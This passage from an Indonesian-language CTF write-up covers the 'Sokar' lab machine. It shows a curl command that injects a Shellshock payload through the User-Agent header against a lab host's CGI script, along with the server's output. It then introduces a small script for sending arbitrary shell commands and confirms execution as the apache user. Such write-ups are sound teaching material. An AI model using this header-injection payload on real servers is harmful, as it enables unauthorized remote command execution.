 ~~~~
# curl -H "user-agent: () { :; }; echo; echo 'Vulnerable'" http://192.168.56.101:591/cgi-bin/cat
Vulnerable
Content-type: text/html

<pre>
Mon Nov 28 19:35:13 GMT 2016
19:35:13 up 7:27, 0 users, load average: 0.00, 0.00, 0.00
<br />
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address               Foreign Address             State      
tcp        0      0 :::591                      :::*                        LISTEN      
udp        0      0 0.0.0.0:68                  0.0.0.0:*                               
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node Path
unix  4      [ ]         DGRAM                    8287   /dev/log
unix  2      [ ACC ]     STREAM     LISTENING     6971   @/com/ubuntu/upstart
unix  2      [ ]         DGRAM                    7114   @/org/kernel/udev/udevd
unix  2      [ ]         DGRAM                    8886   
unix  2      [ ]         DGRAM                    8467   
unix  3      [ ]         DGRAM                    7130   
unix  3      [ ]         DGRAM                    7129   

Linux 2.6.32-504.1.3.el6.x86_64 (sokar) 	11/28/2016 	_x86_64_	(1 CPU)

avg-cpu:  %user   %nice %system %iowait  %steal   %idle
           0.01    0.00    0.02    0.09    0.00   99.89

Device:            tps   Blk_read/s   Blk_wrtn/s   Blk_read   Blk_wrtn
sda               0.42         2.50         4.43      66938     118936
sdb               0.01         0.10         0.00       2700          0

</pre>
~~~~

Ada string "Vulnerable", artinya perintah kita berhasil dieksekusi. Kita bisa inject perintah shell apapun melalui user-agent di header.


# [#] Eksploitasi 1

Karena malas menulis banyak dan otak-atik header setiap kali melakukan request sebaiknya kita buat script kecil untuk kebutuhan kita.
Script [comm.py](comm.py "comm.py") digunakan untuk mengirimkan request. Kita tinggal memasukkan perintah shell apa yang ingin kita eksekusi di prompt "send $ "
Ada baiknya kita menuliskan path secara utuh, namun untuk sebagian besar kasus kita bisa gunakan relative path karena kita telah mengekspor $PATH

Alternative lainnya adalah menggunakan fitur Repeater yang ada di burp-suite, tapi tampaknya merepotkan untuk kasus ini.

Identifikasi user sekarang
~~~~
send $ id
uid=48(apache) gid=48(apache) groups=48(apache)
~~~~
